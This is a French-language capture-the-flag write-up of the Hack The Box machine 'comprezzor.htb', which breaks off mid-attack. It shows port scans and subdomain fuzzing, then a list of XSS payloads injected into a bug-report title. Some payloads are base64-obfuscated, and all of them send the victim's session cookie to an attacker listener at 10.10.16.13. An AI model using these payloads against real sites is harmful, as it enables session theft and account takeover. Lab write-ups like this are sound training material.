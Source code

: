   # Intuition

	echo "10.10.11.15 comprezzor.htb" >> /etc/hosts   
    
	sudo masscan -p1-65535,U:1-65535 10.10.11.15 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.15 -oN nmap.txt
	
Scans classiques.

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                   
Sur le site, on a la possibilité d'uploader un fichier pour le compresser, et il y a la description suivante : 

> Welcome to our file compression service. You can upload text (txt), PDF (pdf), and Word (docx) files to compress them using the LZMA algorithm.    
    
Fuzzing : 

	feroxbuster --silent -u http://comprezzor.htb
    ffuf -H "Host: FUZZ.comprezzor.htb" -u http://comprezzor.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fs 178

Plusieurs sous-domaines trouvés : 

    auth                    [Status: 302, Size: 199, Words: 18, Lines: 6, Duration: 380ms]
    report                  [Status: 200, Size: 3166, Words: 1102, Lines: 109, Duration: 312ms]
    dashboard               [Status: 302, Size: 251, Words: 18, Lines: 6, Duration: 271ms]

Fuzzing 2 : 

    echo "10.10.11.15 auth.comprezzor.htb" >> /etc/hosts 
    echo "10.10.11.15 report.comprezzor.htb" >> /etc/hosts 
    echo "10.10.11.15 dashboard.comprezzor.htb" >> /etc/hosts 
    
    feroxbuster --silent -u http://auth.comprezzor.htb
    feroxbuster --silent -u http://report.comprezzor.htb
    feroxbuster --silent -u http://dashboard.comprezzor.htb

Un login est nécessaire mais on a la possibilité de s'enregistrer normalement.

Sur http://report.comprezzor.htb/report_bug on peut envoyer un rapport à l'équipe. D'après la page http://report.comprezzor.htb/about_reports ce rapport sera envoyé aux développeurs puis à l'administrateur si besoin. 

Cela ressemble beaucoup à un scénario de XSS.

Ensemble de payloads tentés dans le titre du rapport :

    <script>var i=new Image(); i.src="http://10.10.16.13:8000/?cookie="+btoa(document.cookie);</script>
    <script>window.location="http://10.10.16.13:8000/?cookie="+document.cookie;</script>
    <img src=x onerror="fetch('http://10.10.16.13:8000/?cookie='+document.cookie)">
    "><script>new Image().src="http://10.10.16.13:8000/cookie.php?c="+document.cookie;</script>
    <img src=x onerror=eval(atob("d2luZG93LmxvY2F0aW9uPSJodHRwOi8vMTAuMTAuMTYuMTM6ODAwMC8/Y29va2llPSIrZG9jdW1lbnQuY29va2ll")) />
    <img src=x onerror=eval(atob('ZmV0Y2goJ2h0dHA6Ly8xMC4xMC4xNi4xMzo4MDAwP2Nvb2tpZT0nK2RvY3VtZW50LmNvb2tpZSk='))/>
